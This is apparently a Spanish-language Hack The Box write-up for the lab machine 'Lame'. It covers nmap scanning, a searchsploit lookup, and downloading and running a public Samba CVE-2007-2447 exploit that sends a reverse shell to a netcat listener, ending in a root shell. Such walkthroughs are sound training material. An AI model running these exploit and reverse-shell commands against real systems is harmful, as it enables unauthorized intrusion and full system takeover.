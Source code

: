 ```yaml
---
layout: single
title: HTB-Lame
excerpt: "WriteUp de la máquina HTB Lame -- Type: Easy "
date: 2022-04-01
classes: wide
header:
  icon: /assets/images/hackthebox.webp
  teaser_home_page: true
  teaser: /assets/images/writeups/lame/lame.png
categories:
  - WriteUps
tags:
  - HTB
  - Easy

---
```

<centre><img src="/assets/images/writeups/lame/lame.png"></centre>


[Maquina](https://app.hackthebox.com/machines/1) 



## Reconocimiento
```bash
nmap -sCV 10.10.10.3 --min-rate 5000 -Pn
```

```bash
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.9
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2022-04-01T06:53:09-04:00
|_clock-skew: mean: 2h06m00s, deviation: 2h49m43s, median: 5m59s
```

Al mirar el resultado del nmap, vemos que el puerto **139** tiene un smb abierto y probablemente sea la misma versión que el puerto **445** por lo tanto buscamos un exploit en la base de datos **searchsploit**.

```bash
└─$ searchsploit samba 3.0                          

 Exploit Title                                                                                     

Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                   
```

Aunque ponga que usa **Metasploit**, podemos buscar por google el script para poder usarlo sin **Metasploit** como por ejemplo: [CVE-2007-2447](https://github.com/amriunix/CVE-2007-2447)


## Explotación

Nos descargamos el exploit:

```bash
wget https://raw.githubusercontent.com/amriunix/CVE-2007-2447/master/usermap_script.py
```

Para usarlo lo tiramos con **python** y tendremos que tener un **netcat** en escucha.

```bash
python usermap_script.py 10.10.10.3 139 10.10.14.9 443 #ejecución

nc -lvp 443 #netcat
```

Y el usuario que obtenemos en **root**.
```bash
root@lame:/# whoami
root
root@lame:/# ifconfig
eth0      Link encap:Ethernet  HWaddr 00:50:56:b9:68:4b  
          inet addr:10.10.10.3  Bcast:10.10.10.255  Mask:255.255.255.0
```

Flag **makis**:
```bash
root@lame:/home/makis# ls
user.txt
root@lame:/home/makis#
```

Flag **root**:
```bash
root@lame:/root# ls
Desktop  reset_logs.sh  root.txt  vnc.log
root@lame:/root# 
```